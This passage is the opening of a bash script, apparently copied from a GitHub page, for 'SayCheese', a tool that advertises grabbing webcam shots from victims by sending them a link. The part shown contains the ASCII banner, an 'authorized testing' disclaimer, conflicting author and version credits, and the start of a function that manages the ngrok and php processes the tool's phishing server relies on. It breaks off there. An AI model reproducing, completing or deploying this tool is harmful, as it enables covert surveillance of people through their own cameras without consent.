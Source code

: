 #!/bin/bash

# SayCheese v1.4

# Coded by: @Firdous_momz (instgram)

# Github: https://github.com/@firdous_momz/saycheese

trap 'printf "\n";stop' 2

banner() {

printf "      \e[1;92m  ____              \e[0m\e[1;77m ____ _                          \e[0m\n"

printf "      \e[1;92m / ___|  __ _ _   _ \e[0m\e[1;77m/ ___| |__   ___  ___  ___  ___  \e[0m\n"

printf "      \e[1;92m \___ \ / _\` | | | \e[0m\e[1;77m| |   | '_ \ / _ \/ _ \/ __|/ _ \ \e[0m\n"

printf "      \e[1;92m  ___) | (_| | |_| |\e[0m\e[1;77m |___| | | |  __/  __/\__ \  __/ \e[0m\n"

printf "      \e[1;92m |____/ \__,_|\__, |\e[0m\e[1;77m\____|_| |_|\___|\___||___/\___| \e[0m\n"

printf "      \e[1;92m              |___/ \e[0m                                 \n"

printf "\n"                                                              

printf "\e[1;77m               .:.:\e[0m\e[1;93m Grab webcam shots by link \e[0m\e[1;77m:.:.\e[0m\n"                              

printf " \e[1;77m[\e[1;93m::\e[0m\e[1;77m]              v1.2 coded by @linux_choice              \e[1;77m[\e[1;93m::\e[0m\e[1;77m]\e[0m\n"

printf " \e[1;77m[\e[1;93m::\e[0m\e[1;77m]          github.com/firdous_momz/saycheese          \e[0m\e[1;77m[\e[1;93m::\e[0m\e[1;77m]\e[0m\n"

printf "\n"

printf "        \e[1;91m Disclaimer: this tool is designed for security\n"

printf "         testing in an authorized simulated cyberattack\n"

printf "         Attacking targets without prior mutual consent\n"

printf "         is illegal!\n"

printf "\n"

}

stop() {

checkngrok=$(ps aux | grep -o "ngrok" | head -n1)

checkphp=$(ps aux | grep -o "php" | head -n1)

#checkssh=$(ps aux | grep -o "ssh" | head -n1)

if [[ $checkngrok == *'ngrok'* ]]; then
